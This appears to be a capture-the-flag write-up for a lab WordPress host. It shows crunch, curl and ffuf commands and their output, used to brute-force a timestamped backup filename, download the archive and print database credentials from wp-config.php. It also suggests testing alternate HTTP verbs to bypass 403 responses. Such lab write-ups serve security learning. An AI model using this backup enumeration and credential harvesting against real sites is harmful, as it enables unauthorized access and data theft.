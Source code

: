 > Always a nice idea to check if you are able to access file using different verbs. Maybe the webserver was wrongly configured and does only check on GET requests.
> More infos on [403 & 401 Bypasses](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses#http-verbs-methods-fuzzing)

## Now You See Me

The script **backup_every_17minutes.sh** we discovered is used to create backups of our target webpage every 17 minutes. 

Backups are saved in **/backups/backup_$(date +%Y%m%d%H%M%S)**

How to get the backup? I could either try to calculate the next run or just bruteforce it. Math isn't my speciality so I'm going to bruteforce filenames.

Generate a wordlist that should cover around an hour

`crunch 4 4 0123456789 -o wordlist.txt to generate wordlist`

Get the Date/Time

`curl -I http://10.13.37.11`
```bash
HTTP/1.1 200 OK
Date: Mon, 14 Nov 2022 18:11:24 GMT
Server: Apache/2.4.29 (Ubuntu)
X-Pingback: http://10.13.37.11/xmlrpc.php
Link: <http://10.13.37.11/index.php/wp-json/>; rel="https://api.w.org/"
Link: <http://10.13.37.11/>; rel=shortlink
Content-Type: text/html; charset=UTF-8
```

Get the file

`ffuf -u http://10.13.37.11/backups/backup_2022111418FUZZ.zip -w wordlist.txt`
```bash
________________________________________________

 :: Method           : GET
 :: URL              : http://10.13.37.11/backups/backup_2022111418FUZZ.zip
 :: Wordlist         : FUZZ: wordlist.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

0804                    [Status: 200, Size: 22071775, Words: 0, Lines: 0, Duration: 0ms]
```

Our File is stored as **backup_20221114180804.zip** 

After downloading and inspecting the content we discover two things, db credentials in **wp-config.php** and under dev/ the file called **space_dev.py** with our next flag

Database Credentials
```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ZokDHE_DJ_____enzU)=' );

/** MySQL hostname */
```